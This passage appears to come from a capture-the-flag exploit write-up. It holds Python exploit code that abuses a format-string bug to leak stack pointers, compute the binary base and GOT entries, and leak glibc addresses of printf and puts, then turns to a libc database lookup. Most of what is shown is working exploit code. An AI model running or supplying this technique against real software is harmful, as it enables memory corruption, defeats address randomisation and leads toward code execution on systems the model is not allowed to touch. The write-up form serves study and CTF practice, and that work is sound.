     overwrite_word(master_ptr_offset, saved_slave_ptr & 0xffff)

# dereferences the pointer stored on stack (be careful, it the stored pointer is invalid, the program will crash)
def dereference_at_offset(offset):
    conn.sendline(('%{}$s'.format(offset)).encode())
    conn.recvline().decode()
    leaked_value = conn.recvline()[:-1]

    container = []

    for byte in leaked_value:
        container.append(byte)

    result = 0 & 0xff

    for byte in container[::-1]:
        result |= byte
        result <<= 8

    result >>= 8
    conn.recvuntil(b')', timeout=5).decode()
    conn.sendline(b'202009')
    conn.recvuntil(b':', timeout=5).decode()
    return result & 0xffffffffffff

init()
# align leaked slave pointer value
slave_pointer = leak_stack_data_at_offset(MASTER_POINTER_OFFSET)
slave_pointer += 48
overwrite_word(MASTER_POINTER_OFFSET, slave_pointer & 0xffff)

# leak binary image addresses
log.info("Leaked arbitrary binary image address -> {}".format(hex(leak_stack_data_at_offset(ARBITRARY_BIN_IMG_ADDR_OFFSET))))
bin_img_base_addr = leak_stack_data_at_offset(ARBITRARY_BIN_IMG_ADDR_OFFSET) - 0x11f1
puts_got_entry_addr = bin_img_base_addr + PUTS_GOT_ENTRY_OFFSET
printf_got_entry_addr = bin_img_base_addr + PRINTF_GOT_ENTRY_OFFSET

log.info("Calculated binary image base address: " + hex(bin_img_base_addr))
log.info("Calculated printf() GOT entry: " + hex(printf_got_entry_addr))
log.info("Calculated puts() GOT entry: " + hex(puts_got_entry_addr))

# leak glibc addresses
write_arbitrary_data(MASTER_POINTER_OFFSET, SLAVE_POINTER_OFFSET, printf_got_entry_addr)
printf_glibc_addr = dereference_at_offset(DESTINATION_STACK_ENTRY_OFFSET)
log.info("Leaked printf() glibc address: " + hex(dereference_at_offset(DESTINATION_STACK_ENTRY_OFFSET)))
write_arbitrary_data(MASTER_POINTER_OFFSET, SLAVE_POINTER_OFFSET, puts_got_entry_addr)
puts_glibc_addr = dereference_at_offset(DESTINATION_STACK_ENTRY_OFFSET)
log.info("Leaked puts() glibc address: " + hex(dereference_at_offset(DESTINATION_STACK_ENTRY_OFFSET)))
```
![glibc_leak](https://user-images.githubusercontent.com/45107680/113341484-e20d3c00-9335-11eb-8dfa-4d34e6ca7e16.png)

As you can see, ```printf``` has in-page offset that equals to ```0xd70```, ```puts``` in-page offset is ```0x490```. Enter this data into the libc database:

![libc_database_init_info](https://user-images.githubusercontent.com/45107680/113341607-049f5500-9336-11eb-9493-b85aa18ae803.png)

```
